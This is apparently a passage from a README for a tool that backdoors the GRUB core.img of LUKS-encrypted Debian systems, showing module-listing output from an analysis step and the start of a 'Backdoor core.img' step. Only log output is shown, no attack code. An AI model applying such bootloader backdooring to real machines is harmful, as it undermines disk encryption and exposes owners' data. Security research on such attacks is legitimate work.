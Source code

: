 ```bash
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1b28  md5=f1977ffc6da2c59f52e06e1a2b7e1277 filename=modules/mods-debian11/luks.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
kmille@linbox:grub-luks
```

3. Backdoor core.img (important: you have to run analyze-core.py before!)

```bash
kmille@linbox:grub-luks python backdoor-core.py 
You first have to run `python analyze-core.py <core.img>* to backdoor <core.img>
Backdooring grub modules
Parsing modules starting at offset 0x7250
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
grub_module: type=0 size=0x17f4  md5=8d79d6c2706ddde587fea93830ea0c21 filename=modules/mods-debian11/ext2.mod
grub_module: type=0 size=0x274c  md5=f197920b4ed3181ca118709b577b5405 filename=modules/mods-debian11/diskfilter.mod
grub_module: type=0 size=0x1c00  md5=0dde71eacabac0ef0870a15690017e74 filename=modules/mods-debian11/lvm.mod
grub_module: type=0 size=0x1378  md5=1df60ceeb4f1fdf7824c9e2ae686edff filename=modules/mods-debian11/crypto.mod
grub_module: type=0 size=0x1290  md5=31059070b7e7cccf0a3363220551b93b filename=modules/mods-debian11/extcmd.mod
grub_module: type=0 size=0xb78   md5=3aed3fab1b2215605cd8531e2d071ce7 filename=modules/mods-debian11/archelp.mod
grub_module: type=0 size=0x934   md5=6407057d134c43d2e59c0e3197199361 filename=modules/mods-debian11/procfs.mod
grub_module: type=0 size=0x274c  md5=0120d10c38a3228130977469d6b039f0 filename=modules/mods-debian11/cryptodisk.mod
grub_module: type=0 size=0x59c   md5=ee78193c1bfaf07fed437e5e1adfe19d filename=modules/mods-debian11/pbkdf2.mod
grub_module: type=0 size=0x1b28  md5=f1977ffc6da2c59f52e06e1a2b7e1277 filename=modules/mods-debian11/luks.mod
grub_module: type=0 size=0x4be8  md5=526c2aa03bb400d3e74ae9b8cb640ed0 filename=modules/mods-debian11/gcry_rijndael.mod
grub_module: type=0 size=0x10e0  md5=c8a1503f28013c1ae4bb1c956d0dcc90 filename=modules/mods-debian11/gcry_sha256.mod
grub_module: type=0 size=0x900   md5=43fdc46f1c900eb28765539f8011b888 filename=modules/mods-debian11/part_msdos.mod
grub_module: type=0 size=0x1244  md5=35d716173480b613377b05963ebdf9d6 filename=modules/mods-debian11/biosdisk.mod
```